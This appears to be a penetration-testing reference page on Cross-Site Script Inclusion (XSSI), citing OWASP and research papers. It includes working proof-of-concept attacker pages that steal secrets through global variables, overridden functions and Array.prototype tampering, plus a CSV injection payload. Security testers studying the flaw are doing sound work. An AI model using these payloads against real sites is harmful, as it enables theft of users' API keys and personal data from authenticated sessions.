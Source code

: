 Cross Site Script Inclusion (CSSI or XSSI) vulnerability allows sensitive data leakage across-origin or cross-domain boundaries.
XSSI is a client-side attack similar to [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) but has a different purpose: is uses JavaScript on the client side to leak sensitive data from authenticated sessions.

By default, websites are only allowed to access data if they are from the same origin because of the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md). However, this policy is not applicable for HTML `<script>` tag inclusions. When the browser opens a website with `<script>` tags, the resources are fetched from the cross-origin domain. The resources then run in the same context as the including site or browser, which presents the opportunity to leak sensitive data.

# XSSI vulnerabilities

Testers should analyze code for the following vehicles for data leakage via XSSI vulnerabilities: [^owasp][^hacktricks-xssi]
1. Global variables
2. Global function parameters + Prototype chaining using `this`
3. CSV (Comma Separated Values) with quotations theft
4. JavaScript runtime errors
6. [JSON with Padding (JSONP)](JSONP%20vulnerabilities.md#JSON%20with%20Padding%20(JSONP))

Use the [Burpsuite](../Tools/Burpsuite.md) extension [*Detect Dynamic JS](../Tools/Burpsuite.md#*Detect%20Dynamic%20JS) to identify dynamic javascript files containing possible user-related data


[^owasp]: [Testing for Cross Site Script Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/13-Testing_for_Cross_Site_Script_Inclusion), owasp.org
[^hacktricks-xssi]: [XSSI (Cross-Site Script Inclusion)](https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion), book.hacktricks.xyz
## Global Variables

An API key is stored in a JavaScript file with the URI `https://victim.com/internal/api.js` on the victim’s website, `victim.com`, which is only accessible to authenticated users:

```js
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

The attack site, `attackingwebsite.com`, has an `index.html` with the following code:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>";
    </script>
  </body>
</html>
```

An attacker lures the victim to `attackingwebsite.com` via social engineering, phishing emails, etc. The victim’s browser then fetches `api.js`, resulting in the sensitive data being leaked via the global JavaScript variable and displayed using `innerHTML`.

## Global Function Parameters + Prototype chaining using `this`

Like the case before, but the secret is read using a global function:


```js
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

Attacker can exfiltrate the data by defining a custom function with the same name:
```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

If a variable does not reside inside the global namespace, sometimes this can be exploited anyway using _prototype tampering_. Prototype tampering abuses the design of JavaScript, namely that when interpreting code, JavaScript traverses the prototype chain to find the called property.  [^research]

[^research]: [The Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf), 

```js
(function(){
  var arr = ["secret1", "secret2", "secret3"];
  // intents to slice out first entry
  var x = arr.slice(1);
  ...
})();
```

In the original code `slice` from type `Array` accesses the data we’re interested in. An attacker can, as described in the preceding clause, override `slice` and steal the secrets.
```js
Array.prototype.slice = function(){
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this);
};
```

## CSV with Quotations Theft 

To leak data the attacker/tester has to be able to inject JavaScript code into the CSV data. [^xssi-csv]

[^xssi-csv]: [Identifier based XSSI attacks](https://www.mbsd.jp/Whitepaper/xssi.pdf), Takeshi Terada

```http
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

In this example, using the `___` columns as injection points and inserting JavaScript strings in their place has the following result.

```csv
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

The first publicly documented XSSI attack was in 2006. Jeremiah Grossman’s blog entry Advanced Web Attack Techniques using GMail [^xssi-gmail] depicts a XSSI, which by overriding the Array constructor was able to read the complete address book of a google account.

[^xssi-gmail]: [Advanced Web Attack Techniques using GMail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html), Jeremiah Grossman